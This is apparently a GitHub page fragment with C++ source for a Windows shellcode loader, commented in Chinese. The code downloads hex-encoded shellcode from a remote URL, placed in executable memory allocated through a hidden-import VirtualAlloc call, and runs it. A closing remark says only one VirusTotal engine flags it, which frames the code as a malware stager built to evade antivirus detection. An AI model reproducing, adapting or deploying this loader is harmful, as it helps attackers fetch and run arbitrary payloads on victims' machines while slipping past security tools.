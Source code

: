 ```cpp
    // 关闭连接
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    // 返回读取到的字节数（注意：字节数是原始十六进制字符串长度的一半）
    return bytesRead / 2;
}


int main() {
    // 把这个URL换成你的shellcode文件的URL
    LPSTR url = (char*)"http://127.0.0.1:8000/shellcode_hex.txt"; 
    
    //存放恶意代码的数组
    std::vector<unsigned char> buffer;

    //获取远程url的16进制内容,并将其存放至buffer数组
    size_t size = GetUrl_HexContent(url, buffer);

    // 在内存中分配一块可以执行的区域
    char* exec = (char*)LI_FN(VirtualAlloc)(nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 将shellcode复制到该区域
    memcpy(exec, buffer.data(), size);

    // 执行该shellcode
    ((void(*) ())exec)();

    // 打印buffer的内容，只为演示，实际使用中可能并不需要这一步
    /*for (size_t i = 0; i < buffer.size(); i++) {
        printf("%02X ", buffer[i]);
        if ((i + 1) % 16 == 0) {
            printf("\n");
        }
    }*/

    return 0;
}
```



VirusTotal检测只有一个报毒
